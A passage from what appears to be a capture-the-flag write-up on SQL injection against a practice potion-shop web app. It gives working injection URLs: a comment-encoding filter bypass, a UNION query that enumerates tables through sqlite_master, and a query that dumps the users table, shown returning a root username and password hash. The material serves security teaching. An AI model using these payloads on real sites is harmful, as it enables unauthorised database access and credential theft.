 A lot of these measures can be bypassed by replacing spaces with empty comments ```/**/``` -> ```%2f**%2f``` ([source](https://portswigger.net/support/sql-injection-bypassing-common-filters)):
```
https://potionseller2.secu-web.blackfoot.dev/potions/7 or id > 4
-> https://potionseller2.secu-web.blackfoot.dev/potions/7%2f**%2for%2f**%2fid%2f**%2f>%2f**%2f4
```
```json
{
  "potion": {
    "id": 5,
    "name": "Truth Serum (6x)",
    "description": "Perfect for questing adventurers or for wild parties!",
    "price": 600,
    "img": "http://payload138.cargocollective.com/1/3/107627/5077854/TruthSerum_jpeg_02_800.jpg",
    "longdescription": "From the mines of Moria straight to your local potion dealer, this 6-pack Truth Serum is bound to help you in your interrogations - and also makes for a great time with your party when the adventure is over!"
  }
}
```


We can list all tables using ```UNION``` and the ```sqlite_master``` table ([sqlite system tables](https://www.techonthenet.com/sqlite/sys_tables/index.php)):
```
https://potionseller2.secu-web.blackfoot.dev/potions/7 ) union SELECT *,null FROM sqlite_master where type is 'table' and tbl_name is not 'potions'-- -
```
```json
{
  "potion": {
    "id": "table",
    "name": "users",
    "description": "users",
    "price": 3,
    "img": "CREATE TABLE users(id INT PRIMARY KEY, username TEXT NOT NULL, password TEXT NOT NULL)",
    "longdescription": null
  }
}
```

To get the users:
```
https://potionseller2.secu-web.blackfoot.dev/potions/7 ) union SELECT *,null,null,null FROM users-- -
```
```json
{
  "potion": {
    "id": 0,
    "name": "potionSellerRoot",
    "description": "367ab14fdf7fa39f96143302dc5b7ef9",
    "price": null,
    "img": null,
    "longdescription": null
  }
}
```
